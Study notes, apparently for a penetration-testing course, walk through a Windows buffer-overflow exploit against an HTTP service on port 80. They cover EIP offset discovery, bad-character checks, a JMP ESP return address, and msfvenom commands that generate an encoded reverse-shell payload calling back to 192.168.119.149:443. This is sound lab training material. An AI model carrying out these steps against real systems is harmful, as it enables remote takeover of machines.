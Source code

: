 # Windows Buffer Overflows

In this example we target an application serving HTTP requests on port 80.

* Use SysInternals TCPview tool to identif process number listneing on port 80.
* Must open Immunity Debugger as administrator.
* File > Attach and attach the running process.
* This will pause program execution, resume it by pressing F9.
* Run the python fuzzer against the application.
* Watch for the overflow as EIP points to 41414141.
* Will crash the application - restart in services.

A fuzzer is eneration-based if it creates malformed application inputs from scratch, following things like file format or network protocol specifications.  
A mutation-based fuzzer changes existing inputs by using techniques like bit-flipping to create a malformed variant of the original input.  
A fuzzer that is aware of the application input format is a smart fuzzer.

### Controlling EIP

To get control of the EIP we need to know exactly where to write into it. Fastest way is to use a pattern and identify the offset in the EIP:  
```bash
locate pattern_create
msf-pattern_create -h

msf-pattern_create -l 800

# Update python script to use the generated payload.
# Crash the program with the payload.
# Note the EIP contents

# Find the offset with the hex in the EIP
msf-pattern_offset -l 800 -q 42306142

# Update the script to load to EIP:
  filler = "A" * 780
  eip = "B" * 4
  buffer = "C" * 16

  inputBuffer = filler + eip + buffer

# Retry and verify EIP contains BBBB.
```

### Shellcode Space

We need around 350-400 bytes of space for our shellcode. To find enough space we can increase the size of the buffer and see if it changes the crash:
```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

We can then overflow again, and identify the last address minus the first address for DDDD to identify the available space.

### Check for Bad Characters

* Iterate using the python script for bad charaters.
* Right click on ESP and View in Dump. Look for the last character before it bombs out.
* Remove that character from the script and repeat.


### Finding a Return Address

* Attach program in Immunity.
* Run !mona modules
* Look for library with no protection flags including NXCompat (DEP protection).
* Look for library with no bad characters in address.  

If DEP is enabled, look for the address in the .text code segment.  

Find the opcode equivalent of JMP ESP:
```bash
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

Search for JMP ESP using hex representation in the located library with `mona.py find`. Use `-s` for the escaped hex string, and `-m` for the required module name:  
`!mona find -s "\xff\xe4" -m "libspp.dll"`  

Note the resultant address and check for bad characters: 0x10090c83. We can then click on the 'go to address in dissasembler' button and enter the address. This should result in a JMP ESP instruction.  

The idea is to redirect EIP to this address at time of crash, and the JMP ESP instruction will execute and lead into the shellcode.

Enter the EIP variable to reflect the new address. Note the reversed order due to endianness. In little endian format the low-order byte of the number is stored in memory at the lowest address, and the high-order byte at the highest address. Therefore, we have to store the return address in reverse order in our buffer for the CPU to interpret it correctly in memory.

```python
eip = "\x83\x0c\x09\x10"
```

Use F2 to place a breakpoint at this address to see if it is reached. If reached, press F7 to step into the instruction and we should arrive at our dummy shellcode.

### Generating Shellcode with Metasploit

List the payloads:  
`msfvenom -l payloads`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=443 -f c`  
Works pretty easily to generate shellcode, except it will contain bad characters such as null bytes. A polymorphic encoder, shikata_ga_nai can be used to encode shellcode and inform the encoder of known bad characters with `-b`.  

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`  

We have to account for decoding the shellocde. GetPC routines looking ahead mangle some bytes of the decoder itself and crash the target process. Adjusting ESP backwards is another method, or creating a 'landing pad' for the JMP ESP to continue onto the payload. This is done by prepending No OPeration (NOP) instructions. This allows the CPU to slide through the NOPs until the payload is reached. In doing so, the stack pointer is far enough away foom the decoder that it does not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.
















